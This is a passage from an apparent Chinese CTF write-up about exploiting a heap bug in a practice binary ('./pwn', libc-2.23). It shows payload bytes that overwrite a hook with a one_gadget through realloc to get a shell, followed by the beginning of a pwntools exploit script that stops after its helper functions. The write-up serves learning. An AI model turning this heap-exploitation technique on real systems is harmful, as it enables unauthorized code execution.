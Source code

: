 ```plain
add(0x60,12,'a')
add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
```

这里 realloc 调栈上面介绍过了，然后 b'\\x00'\*0xb+p64(og) 可以当成固定的模板  
然后申请一下就 getshell 了

```plain
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
```

## exp ( 关闭 ASLR )

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

```